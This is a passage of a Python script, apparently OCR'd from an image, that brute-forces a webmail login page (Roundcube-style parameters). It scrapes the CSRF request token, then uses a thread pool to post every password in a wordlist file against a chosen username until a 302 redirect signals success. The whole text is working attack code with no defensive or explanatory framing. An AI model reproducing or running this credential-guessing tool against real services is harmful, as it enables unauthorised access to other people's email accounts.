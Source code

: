 ```python
    
    settings["threads"] = args.threads

def parse_token(text):
    pattern = 'request_token":"(.*)"}'
    token = re.findall(pattern, text)
    return token

def brute(login):
    try:
        url = settings['url']
        r = requests.get(url)
        cookies = r.cookies
        token = parse_token(r.text)
        r = requests.post(url + '?_task=login',
                          data={"_token": token, "_task": "login", "_action": "login", "_timezone": "Europe/Madrid",
                                "_url": "", "_user": settings['username'], "_pass": login}, headers=headers, cookies=cookies,
                          allow_redirects=False, timeout=30)

        if (r.status_code == 302):
            print("Succes with %s:%s" % (settings['username'], login))
            sys.exit()
        else:
            print(f"Code: {r.status_code} - passw: {login}")
    except Exception as ex:
        print(ex)

def verify():
    try:
        url = settings['url']
        r = requests.get(url, timeout=1)
        token = parse_token(r.text)
        if(token == ""):
            return False
        return True
    except Exception as ex:
        print(ex)
        return False

if __name__ == "__main__":
    passwords = open("mur.txt").read().split('\n')

    print("%d passwords loaded" % (len(passwords)))
    print("Trying with username %s" % (settings['username']))
    print("-----------------------------------------------------")

    if(not verify()):
        sys.exit()
    pool = ThreadPool(settings['threads'])
    results = pool.map(brute, passwords)
    pool.close()
    pool.join()

    print("-----------------------------------------------------")
    print("The End")
```
